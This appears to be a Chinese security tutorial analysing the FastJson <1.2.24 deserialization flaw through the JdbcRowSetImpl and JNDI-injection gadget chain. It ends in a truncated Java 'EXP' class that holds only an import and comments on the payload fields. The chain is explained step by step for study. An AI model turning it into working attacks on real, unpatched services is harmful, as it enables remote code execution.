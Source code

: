 *   **FastJson 不需要实现 Serializable**
    
*   **不需要变量不是 transient/可控变量：**
    
    1.  变量有对应的 setter
        
    2.  或是 public/static
        
    3.  或满足条件的 getter(返回值是)：
        

[![](assets/1701612260-e721f698fee9fee33ea0cc516672b9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723225652-28dc968c-2969-1.png)

*   **反序列化入口点不是 readObject，而是 setter 或者是 getter**
    
*   **执行点是相同的：反射或者类加载**
    

## FastJson<1.2.24:

### JdbcRowSetImpl 类+JNDI 注入（出网）：

#### 调用链

*   我们首先找到了漏洞的利用点是一个`JNDI`注入：

[![](assets/1701612260-542e741f8c958620dc3c364be9d42afe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723225950-92b81dce-2969-1.png)

*   然后我们要看一下`getDataSourceName`下面的参数可不可控，可以看到存在 setter 方法，所以可控：

[![](assets/1701612260-55a68703a5fc25a213368fc49f8180df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230020-a4a147e0-2969-1.png)

*   这里我们就要找一下对应的 setter 或者是符合条件的 getter 方法能够调用 connect 的方法：这里我们找到了三种，因为我们要用 get 或者是 set 方法，但是这里的 get 并不能满足我们上面所说的要求，所以这里我们选择 setter 方法：

[![](assets/1701612260-0fbd17af2ae6ac8a1643dc9fa5681d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230047-b48325de-2969-1.png)

[![](assets/1701612260-998696022ddb6518147d740b6cb2dbee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230054-b8dc871a-2969-1.png)

#### EXP:

*   我们生成一下 jndi 注入的 payload 然后导入：

[![](assets/1701612260-04d7d043f01a4c0baff9e0161058a123.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230103-be4be006-2969-1.png)

```bash
package EXP;

import com.alibaba.fastjson.JSON;

public class FastJsonJdbcRowSetlmpl {
    public static void main(String[] args) throws Exception{


//@type 调用 com.sun.rowset.JdbcRowSetImpl 类里面的 setter 触发 connet,connect 触发 JNDI 注入


// 第二个键对传入变量名
        /*
            public void setDataSourceName(String name) throws SQLException {
        */
// 第二个值对应 JNDI 注入的链接


// 第三个值对应调用 connect 方法的 setAutoCommit
```